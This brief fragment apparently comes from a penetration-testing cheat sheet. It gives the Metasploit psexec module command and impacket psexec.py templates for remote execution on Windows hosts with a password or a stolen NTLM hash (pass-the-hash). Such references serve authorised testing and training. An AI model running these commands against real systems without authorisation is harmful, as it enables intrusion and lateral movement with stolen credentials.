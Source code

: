 ```exploit-smb-psexec
use exploit/windows/smb/psexec
```

```psexec-pass
psexec.py <Domain>/<User>:'<PASS>'@<Target-IP>
```

```psexec-hash
psexec.py <DOMAIN>/<User>@<Target-IP> -hashes <NTLMv2-Hash>
```
